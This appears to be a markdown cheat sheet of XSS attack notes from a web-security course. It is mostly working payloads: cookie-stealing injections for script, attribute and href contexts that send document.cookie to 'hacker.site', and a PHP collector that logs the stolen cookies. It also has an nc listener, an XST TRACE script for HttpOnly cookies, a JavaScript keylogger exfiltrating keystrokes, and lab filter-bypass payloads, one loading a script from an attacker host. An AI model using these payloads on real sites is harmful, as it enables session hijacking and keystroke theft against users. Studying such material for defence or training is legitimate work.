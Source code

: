 # XSS



### Stealing cookies

```
new Image().src ="http://hacker.site/C.php?cc ="+escape(document.cookie);
```



Script variable:

```
<script>var a = ">>INJ<<"; </script>
	"; new Image().src ="http://hacker.site/C.php?cc ="+escape(document.cookie);//
	";new Audio().src="http://hacker.site/C.php?cc="+escape(document.cookie);//
```



Attribute:

```
<div id=">>INJ<<">
	x" onmouseover="new Image().src ='http://hacker.site/C.php?cc ='+escape(document.cookie)


<video width="320" height=">>INJ<<">
	240" src=x onerror="new Audio().src='http://hacker.site/C.php?cc='+escape(document.cookie)
```



href:

```
<a href=">>INJ<<">
	x" onclick="new Image().src ='http://hacker.site/C.php?cc ='+escape(document.cookie)
```



c.php

```
<?php

error_reporting(0);
$cookie = $_GET['cc'];
$file = '_cc_.txt';
$handle = fopen($file, "a");
fwrite($handle, $cookie.'\n');
fclose($handle);
echo "<h1>Hello</h1>"

?>
```





**steal cookies with nc**

```
<script>new Image().src ="http://ip:port/?cc ="+escape(document.cookie);</script>

attacker:
nc -nvlp 4444
```









### Bypassing HTTPOnly Flag

#### XST(Cross Site Tracing)

By starting a **TRACE** connection with the victim server, we will receive our request back. Additionally, if we send HTTP headers, normally inaccessible to JavaScript (IE: Cookie ), we will be able to read them! Below is a simple TRACE request that simulates the sending of a custom header Test . We used cURL but you can obtain the same result using other tools.

```
curl victim.site -X TRACE
```

Since we are trying to steal protected cookies by exploiting an XSS, we need to perform this kind of request using a web browser.

 With this way, we will send the protected cookies in the TRACE request and then be able to read them in the response!



In JavaScript, there is the **XMLHttpRequest** object that provides an easy way to retrieve data from a URL. It allows us to do this without having to do a full page refresh. Let’s look at how to create a simple TRACE request.

```
<script>
    var xhr = new XMLHttpRequest();
    var url = 'http://victim.site/';
    xhr.withCredentials = true;
    xhr.open('TRACE', url);

    function hand(){
        console.log(this.getAllresponseHeaders());
    }

    xhr.onreadystatechange = hand;
    xhr.send();
</script>
```

**Note:** This technique is very old and consequently modern browsers BLOCK the HTTP TRACE method in XMLHttpRequest and in other scripting languages and libraries, such as jQuery, Silverlight, Flash/ActionScript, etc.

Restrictions of XMLHttpRequest's getResponseHeader(): Returns all headers from the response, with the exception of those whose field name is `Set-Cookie` or `Set-Cookie2`.





### Defacements

- Virtual Defacement
- Persistent Defacement



### Phishing

A basic way to perform XSS Phishing is to alter the `action` attribute of the `<form>` tag in order to hijack the submitted form input.



### Keylogging

What a keylogger does is log keys hit on the victim keyboard. The approach here is the same as with cookie grabbing. We need client side code that captures the keystrokes and server side code that stores the keys sent.

#### JavaScript Example

```
var keys =""; // WHERE > where to store the key strokes
document.onkeypress = function(e) {
var get = window.event ? event : e;
var key = get.keyCode ? get.keyCode : get.charCode ;
key = String.fromCharCode (key);
keys += key;
}
window.setInterval(function(){
if(keys !== ""){
	// HOW > sends the key strokes via GET using an Image element to listening hacker.site server
	var path = encodeURI ("http://hacker.site/keylogger? k="+ keys);
	new Image().src = path;
	keys = "";
	}
}, 1000);
```



#### Keylogging with Metasploit

auxiliary(http_javascript_keylogger): The Metasploit auxiliary module is an advanced version of the previous " JavaScript example ". It creates the JavaScript payload which could be injected within the vulnerable web page and automatically starts the listening server.





### Labs

```
4.
<object data="javascript:alert('l33t')">

5.
why not ??
<script>alert`'l33t'`</script>
<script>alert&lpar;'l33t'&rpar;</script>	
<img src=x ONerror=alert`'l33t'`>

5. solved
<img src=x ONerror=alert&lpar;'l33t'&rpar;>		// HTML encode of ()
<svg><script>alert&lpar;'l33t'&rpar;</script>


6.
<img src=z onerror=confirm("l33t")>
<img src=z onerror=prompt("l33t")>
<svg><script>\u0061lert("l33t")</script>
<script>\u0061lert("l33t")</script>
<img src=x onerror="&#x0061;lert('l33t')"/>
<script>Function(\u0061lert("l33t"));</script>

7.
<script>\u{0061}lert("l33t")</script>
<script>Function(\u{0061}lert("l33t"));</script>
<script>eval('\x61lert("l33t")')</script>

8.
[press enter as a new line]eval('\x61lert("l33t")'

9. why not \u2028 eval('\x61lert("l33t")'
the solution did not work

9.
</script><img src=x onerror="\u0061lert('l33t')"/>

10.
<img src=x onerror=eval(&apos;a\l\ert\(\&apos;l33t\&apos;)&apos;)>
<script>eval(8680439..toString(30))(983801..toString(36))</script>

11.
http://11.xss.labs%2f@attacker.ine:8000/script.js    and from our machine write alert("l33t") in SCRIPT.JS and start python server
```


